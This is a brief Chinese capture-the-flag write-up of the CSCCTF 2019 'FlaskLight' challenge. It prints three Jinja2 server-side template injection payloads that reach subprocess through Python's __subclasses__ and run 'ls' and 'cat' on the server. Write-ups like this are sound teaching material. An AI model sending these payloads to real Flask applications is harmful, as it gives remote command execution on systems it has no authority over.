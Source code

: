 # \[CSCCTF 2019 Qual]FlaskLight

## \[CSCCTF 2019 Qual]FlaskLight

## 考点

* Flask SSTI

## wp

![](<../../.gitbook/assets/image (14) (1) (1) (1).png>)

F12，给了提示

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png>)

题目是名字Flask，尝试一下SSTI

![](<../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

然后找可以利用的类

```
?search={{[].__class__.__mro__[1].__subclasses__()}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("ls",shell=True,stdout=-1).communicate()[0]}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("cat flasklight/coomme_geeeett_youur_flek",shell=True,stdout=-1).communicate()[0]}}
```

## 小结

1. 常规Flask SSTI
